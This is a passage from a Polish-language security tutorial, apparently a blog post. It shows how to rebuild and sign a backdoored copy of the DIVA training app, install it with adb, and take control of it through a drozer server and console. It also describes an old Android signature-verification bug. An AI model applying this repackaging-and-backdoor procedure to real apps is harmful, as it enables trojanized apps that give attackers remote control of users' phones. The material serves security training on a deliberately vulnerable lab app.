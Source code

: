 ## Zbudowanie nowego APK

Po dokonaniu wszystkich modyfikacji możemy przystąpić do zbudowania paczki.
{% highlight x %}
$ apktool b -o diva-backdoor.apk diva.out
{% endhighlight %}

Do tego konieczne jeszcze jest podpisanie aplikacji. Bez tego instalacja nie będzie możliwa.

{% highlight x %}
$ keytool -genkey -v -keystore android.keystore -alias android -keyalg RSA -keysize 2048 -validity 10000
$ jarsigner -keystore android.keystore diva-backdoor.apk android
{% endhighlight %}

Android wykorzystuje certyfikaty tylko do rozróżnienia twórców aplikacji. Nie muszą być one podpisane przez CA. Jest to zabezpieczenie przed instalacją nowej, potencjalnie szkodliwej wersji aplikacji, przygotowanej przez kogoś innego niż pierwotnego autora. Nie jest to jednak zabezpieczenie idealne. Na przestrzeni lat znaleziono wiele luk w implementacji tego mechanizmu. Jedną z nich był błąd o numerze 8219321. Dotyczył on niepoprawnej obsługi plików APK, które zawierały w sobie pliki o powtarzających się nazwach. Sprawdzana była sygnatura tylko tego, który występował jako pierwszy, a następnie na telefonie instalowany był drugi plik. Pozwalało to przemycać w APK niebezpieczną zawartość, która nie była weryfikowana, a mimo to trafiała do pamięci telefonu.

Instalujemy aplikację na telefonie. Trzeba pamiętać o odinstalowaniu poprzedniej wersji, jeśli nie dysponujemy żadnym błędem pozwalającym na instalację fałszywej aplikacji.
{% highlight x %}
$ adb install diva.out
{% endhighlight %}

Uruchomienie i przejęcie kontroli

Serwer uruchamiamy wpisując
{% highlight x %}
$ drozer server start
Starting drozer Server, listening on 0.0.0.0:31415
2017-08-13 15:22:34,652 - drozer.server.protocols.drozerp.drozer - INFO - accepted connection from 2lrbgebepd3sv
{% endhighlight %}

[![drozer server start](https://raw.githubusercontent.com/LogicalTrust/materials/master/drozer-backdoor/2.png)](https://raw.githubusercontent.com/LogicalTrust/materials/master/drozer-backdoor/2.png)

Ostatnia linia to log, który powinniśmy ujrzeć po uruchomieniu aplikacji z backdoorem. Oznacza ona udane połączenie.

Teraz pozostaje już tylko uruchomienie konsoli, która daje możliwość odpalania modułów w kontekście zmodyfikowanej aplikacji.

{% highlight x %}
$ drozer console connect 2lrbgebepd3sv
            ..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotectorandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.

drozer Console (v2.3.4)
dz>